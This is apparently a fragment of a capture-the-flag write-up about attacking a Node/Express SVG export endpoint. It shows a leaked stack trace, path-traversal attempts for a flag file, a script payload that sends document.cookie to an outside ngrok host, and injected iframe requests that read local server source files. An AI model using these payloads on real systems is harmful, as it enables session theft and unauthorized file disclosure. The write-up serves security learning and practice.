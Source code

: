 
**error shows possible path:**
SyntaxError: Unexpected token \&#39; in JSON at position 58\<br\> \&nbsp; \&nbsp;at JSON\.parse \(\&lt;anonymous\&gt;\)\<br\> \&nbsp; \&nbsp;at parse \(/app/node\_modules/body\-parser/lib/types/json\.js:89:19\)\<br\> \&nbsp; \&nbsp;at **/app/**node\_modules/body\-parser/lib/read\.js:128:18\<br\> \&nbsp; \&nbsp;at AsyncResource\.runInAsyncScope \(node:async\_hooks:199:9\)\<br\> \&nbsp; \&nbsp;at invokeCallback \(/app/node\_modules/raw\-body/index\.js:231:16\)\<br\> \&nbsp; \&nbsp;at done \(/app/node\_modules/raw\-body/index\.js:220:7\)\<br\> \&nbsp; \&nbsp;at IncomingMessage\.onEnd \(/app/node\_modules/raw\-body/index\.js:280:7\)\<br\> \&nbsp; \&nbsp;at IncomingMessage\.emit \(node:events:402:35\)\<br\> \&nbsp; \&nbsp;at endReadableNT \(node:internal/streams/readable:1343:12\)\<br\> \&nbsp; \&nbsp;at processTicksAndRejections \(node:internal/process/task\_queues:83:21\)\</pre\>
\</body\>
\</html\>

Tried /app/flag\.txt /app/\.\./\.\./flag\.txt /app/\.\./\.\./\.\./flag\.txt /app/\.\./\.\./\.\./\.\./flag\.txt

\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)



**Started trying to find other common node/express files in the path:
**POST /api/export HTTP/1\.1
Host: 138\.68\.150\.120:31338

\{"svg":"\<svg\-dummy\>\</svg\-dummy\>\<iframe src=\\"file:///app/routes/index\.js\\" width=\\"100%\\" height=\\"2000px\\"\>\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg](#https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg)
version=\\"1\.1\\" xmlns=\\"[http://www.w3.org/2000/svg\\"](#http://www.w3.org/2000/svg")
xmlns:xlink=\\"[http://www.w3.org/1999/xlink\\"](#http://www.w3.org/1999/xlink")
width=\\"500\\" height=\\"400\\" viewBox=\\"0,0,500,400\\"\>\<g fill=\\"#e74c3c\\" fill\-rule=\\"nonzero\\" stroke=\\"none\\" str\-miter\\" stroke\-miterlimit=\\"10\\" stroke\-dasharray=\\"\\" stroke\-dashoffset=\\"0\\" font\-family=\\"none\\" font\-weight=\\"none\\" font\-size=\\"none\\" text\-anchor=\\"none\\" style=\\"mix\-blend\-mode: normal\\"\>\</svg\>"\}

![](./images/6c899d7aab8bf572e20c5eff8e4cd006.png)


\{"svg":"\<svg\-dummy\>\</svg\-dummy\>\<iframe src=\\"file:///app/database\.js\\" width=\\"100%\\" height=\\"2000px\\"\>\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg](#https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg)
version=\\"1\.1\\" xmlns=\\"[http://www.w3.org/2000/svg\\"](#http://www.w3.org/2000/svg")
xmlns:xlink=\\"[http://www.w3.org/1999/xlink\\"](#http://www.w3.org/1999/xlink")
width=\\"500\\" height=\\"400\\" viewBox=\\"0,0,500,400\\"\>\<g fill=\\"#e74c3c\\" fill\-rule=\\"nonzero\\" stroke=\\"none\\" str\-miter\\" stroke\-miterlimit=\\"10\\" stroke\-dasharray=\\"\\" stroke\-dashoffset=\\"0\\" font\-family=\\"none\\" font\-weight=\\"none\\" font\-size=\\"none\\" text\-anchor=\\"none\\" style=\\"mix\-blend\-mode: normal\\"\>\</svg\>"\}

![](./images/72de527ffe879b3864ec3a0aa653e9b4.png)


**ooh, adminPwd is a const saved here\.\. maybe I can find it in the js? nah this is only used for migrate, sounds most likely impossible\.\.
Opened up /app/index\.js though and foudn:
**
![](./images/2c5f6c2e380384157297619a8c653b7d.png)
